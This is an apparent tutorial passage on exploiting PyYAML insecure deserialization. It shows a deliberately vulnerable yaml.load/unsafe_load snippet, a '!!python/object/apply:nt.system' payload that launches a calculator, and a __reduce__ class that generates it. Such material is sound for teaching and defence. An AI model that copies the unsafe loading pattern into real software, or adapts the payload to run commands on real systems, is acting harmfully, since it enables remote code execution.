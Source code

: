 Analyse the serialized object is not difficult, dict and lists are handled nicely, while other object must be serialized with their class notation. The above object, for example, would be translated as:

```python
-                 ==== [ 
a :!!python/tuple ==== {a : tuple(
- b - c           ==== b, c
                  ==== )}
                  ==== ]
```

In order to serialize an arbitrary class, the `__reduce__` method must be implemented, in a similar way it was for pickle.

How the exploitation works? Let's consider the following vulnerable code:

```python
import yaml

# Try to create the desert object from YAML file
with open('desert.yml') as desert_file:
    if float(yaml.__version__) <= 5.1: 
        desert = yaml.load(desert_file)
    else:
        desert = yaml.unsafe_load(desert_file)
# Try printing the desert name
print(desert['name'])
```

You may appreciate the version check before the actual call to `load`. This was done on purpose because from PyYAML >= 5.1, the `load` function was patched to avoid "function" deserialization (e.g. `os.system`, `subprocess.call`, `subprocess.check_output`). However, it may still be possible to exploit it using non function based vectors as `subprocess.Popen`, as nicely exposed [here](https://www.exploit-db.com/docs/47655).
The main concept is the always the same, trick the application into loading arbitrary classes/methods. In the case of PyYAML, the following payload can be used to spawn a calculator on the hosting server:

```yaml
!!python/object/apply:nt.system
- cmd /c calc
```

This simple payload can be created easily using the following code:

```python
import yaml, os

class Payload:
    def __reduce__(self):
        return (os.system, ("cmd /c calc.exe",))
    
yaml.dump(Payload())
```

Later we'll see how to create custom payloads dynamically.
